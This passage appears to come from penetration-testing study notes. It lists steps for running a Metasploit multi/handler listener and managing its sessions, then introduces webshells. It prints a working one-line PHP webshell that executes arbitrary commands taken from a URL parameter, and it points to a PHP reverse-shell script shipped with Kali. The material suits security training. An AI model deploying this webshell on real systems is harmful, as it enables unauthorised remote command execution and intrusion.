 1. Open Metasploit with msfconsole
2. Type use multi/handler, and press enter
3. Set the options needed
4. Start the listener using `exploit -j`
5. Use `sessions 1` to foreground it again.If you have more sessions running use `sessions` to get the session number. Then use `sessions <number>` to select the appropriate session to foreground.

### WebShells
There are times when we encounter websites that allow us an opportunity to upload, in some way or another, an executable file. Ideally we would use this opportunity to upload code that would activate a reverse or bind shell, but sometimes this is not possible.

As `PHP` is still the most common server side scripting language, let's have a look at some simple code for this in a very basic one line format: 

`<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`

As mentioned previously, there are a variety of webshells available on Kali by default at `/usr/share/webshells` -- including the infamous `PentestMonkey php-reverse-shell` -- a full reverse shell written in PHP.
